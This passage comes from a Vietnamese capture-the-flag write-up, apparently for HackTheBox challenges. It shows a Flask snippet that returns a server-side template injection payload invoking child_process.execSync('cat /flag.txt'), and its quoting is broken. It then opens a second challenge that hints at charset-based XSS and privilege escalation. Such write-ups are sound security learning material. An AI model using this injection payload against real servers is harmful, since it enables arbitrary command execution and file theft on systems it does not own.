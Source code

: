 Ok quá ngon, mình đã SSTI thành công. Bây giờ chỉ cần thay đổi payload là có thể lấy được flag
    
        
```python
from flask import *

app = Flask(__name__)

@app.route('/', methods=["GET", "POST"])
def home():
    return "range.constructor("return global.process.mainModule.require('child_process').execSync('cat /flag.txt')")()"

app.run(port=3001)
```
    
![image](https://hackmd.io/_uploads/HkGmcnKryx.png)

![image](https://hackmd.io/_uploads/S13452KBkx.png)

![image](https://hackmd.io/_uploads/B1jHchYr1e.png)

![image](https://hackmd.io/_uploads/B14U93tr1e.png)

Flag : HTB{f4k3_fl4g_f0r_testing}    

## encoDecept

#### Source

https://drive.google.com/file/d/1c12cRXHC89bspsOMR6p5Azcbj_EaS-WU/view?usp=sharing

#### Hints

* Missing charset, ORM leak, XSS, Insecure deserialization, privilege escalation

#### Solution

Bài cho mình một trang web như sau có chức năng chỉnh sửa bio, report contract và tạo contract
    
![image](https://hackmd.io/_uploads/ByiYJaFryx.png)

![image](https://hackmd.io/_uploads/BkSAyH9HJe.png)

![image](https://hackmd.io/_uploads/Syx1rr9H1l.png)
    
Nhìn qua database có thể thấy khi tạo một user mặc định sẽ là role guest. Ngoài ra có 2 account admin và contract_manager nữa nên mình nghĩ bài này sẽ có dạng privilege escalation

Mình thử vào trang bio và thay đổi thì thấy một điều đặc biệt là content type không có charset. Lúc này thì ta có thể XSS bằng cách sử dụng escape character của ISO-JP-2022. https://www.sonarsource.com/blog/encoding-differentials-why-charset-matters/
    
![image](https://hackmd.io/_uploads/Hkq-cScr1e.png)
